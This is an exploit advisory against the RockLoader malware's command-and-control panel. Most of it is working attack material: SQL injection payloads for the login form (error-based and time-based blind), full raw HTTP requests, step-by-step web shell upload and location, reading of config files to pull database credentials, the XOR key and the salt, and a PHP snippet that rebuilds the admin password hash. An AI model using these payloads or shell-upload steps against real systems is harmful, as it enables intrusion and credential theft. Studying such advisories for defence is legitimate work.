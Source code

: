 ```
    Type: SQLi and shell file upload
    Author: Danail Velev
    Contact: ICQ: 209030 / d.velev@colocation.bg
    Website: http://colocation.bg/
    Software: https://github.com/colocation/RockLoader-source
    Original Release: https://cxsecurity.com/ascii/WLB-2016070003
```

## Summary: SQL Injections
NO user registration required. The Command and Control Server processing the spread requests,user tasks and responsible for the process, is suffering from mutiple remote sql injection. Common C&C server path is "/cp/login/" in most common setups. Since the specific of the spreader and it's functionality, methods of encryption and working process, There is possibility for RCE,MSF/CMD injection and local root post 
explotation.

In common cases the setup comes with this specific configs.
- user has full priviligies to host sql server.
- you can interact with local file read in most conditions.
- user is database administrator in most conditions.
- database name and structure are identical since it comes as phpmyadmin dump.
- file write and read is a must.
- user screen capture plugin on advanced setups.
- default database name is 'appdater'


## Proof of Concept:

Affected parameters are "username" and "password" via specifict POST request.
The 3th parameter is the php session.


### ----=(SQL Injection 1)=----
```
Type: error-based
Method: POST
Request Type: XMLHttpRequest
Title: MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (FLOOR)
Payload example for POST parameter username: 
password=S0M3PaSSw0rd&username=-1' OR 32 AND ROW(9213,8915)>(SELECT 
COUNT(*),CONCAT(0x716a707071,(SELECT 
(ELT(9213=9213,1))),0x71767a7071,FLOOR(RAND(0)*2))x FROM (SELECT 4118 
UNION SELECT 5903 UNION SELECT 7493 UNION SELECT 1139)a GROUP BY x)-- 
KSxg1=6 AND 000580=000580 --
Example raw request for host: 127.0.0.1
-----------------EXAMPLE--------------------
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
-----------------END--------------------
```
### ----=(SQL Injection 2)=----
```
Type: AND/OR time-based blind
Method: POST
Request Type: XMLHttpRequest
Title: MySQL >= 5.0.12 AND time-based blind
Payload example for POST parameter username: 
password=S0M3PaSSw0rd&username=-1' OR 32 AND SLEEP(5)-- sWMh1=6 AND 
000580=000580 --
Example raw request for host: 127.0.0.1
-----------------EXAMPLE--------------------
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
-----------------END--------------------
```

### ----=(Shell Upload POC)=----
```
Requirements:
- Valid user for control panel.
- Access to database for reading.

Step1:
Upload your shell as new file via Control Panel.
Name it: OWNED
Note: filename is masked in control panel

Step2:
See 'file' table at 'appdater' database.
QUERY: SELECT * FROM `file`;
Look for name=OWNED and coresponding file_path name (EXAMPLE: 
C932kc.php)

Step3:
Location of your Shell
http://127.0.0.1/files/c932kc.php

-----------------END--------------------
```
### ----=(Database user and password disclose)=----
```

Example request to get the directory location:

===============================================
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
===============================================
Response if error reporting is enabled:

<br />
<b>Notice</b>:  A session had already been started - ignoring 
session_start() in <b>/var/www/html/cp/login/auth.php</b> on line 
<b>23</b><br />


===============================================

Read the settings.php file of the control panel to obtain user and 
password for database.
location: /var/www/html/cp/settings.php

----Snip-----
<?php
//Debug
ini_set('error_reporting', E_ALL);  // REMOVE TO TURN DEBUG OFF
ini_set('display_errors', 1);       // REMOVE TO TURN DEBUG OFF

//MySQL settings
define('DB_HOSTNAME', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', '');
define('DB_DATABASE', 'appdater'); <- most of the time this is the 
default database since it's come in the bundle.
define('DB_PORT', '3307');

......
---EndSnip---
```
### ----=(XOR Encrypton key and password salt disclose)=----
```

Read the settings.php file (/var/www/appdater/html/settings.php)
Look at the global configuration for the app.

----Snip-----
//GLOBAL settings
define('XOR_KEY', 'aWL~jH9zJl$5Yfz7'); <- File encryption XOR_KEY
define('FILES_URL', 'https://summerr554fox.su/files/'); <- address of 
all uploaded files
define('APPDATER_PATH', '/var/www/html/');
define('SALT', 'KsqwGzTl?Qwq|oHA'); <- SALT KEY FOUND !
?>
---EndSnip---
TADAAAAAAAAAAAAAAAAAAAAAAAAAa we got the password for the sql and even 
more: XOR_KEY for file encyption, EXE files location, PATH to the 
Control Panel anddd....
The most important --> THE SALT !

```
### ---=(Admin panel password generator)=---
```

Read the core/functions.php file 
(/var/www/appdater/html/core/functions.php)
Look for this

---Snip-----
     function create_hash( $string ) {
         return substr( sha1( SALT . $string ), 3, 17 );
     }
----EndSnip---

TADAAAA so we got and the algo used to create correct user and 
password.


<?php
define('SALT', 'KsqwGzTl?Qwq|oHA');
     function create_hash( $string ) {
         return substr( sha1( SALT . $string ), 3, 17 );
     }
echo create_hash('S0M3PaSSw0rd');
?>

```

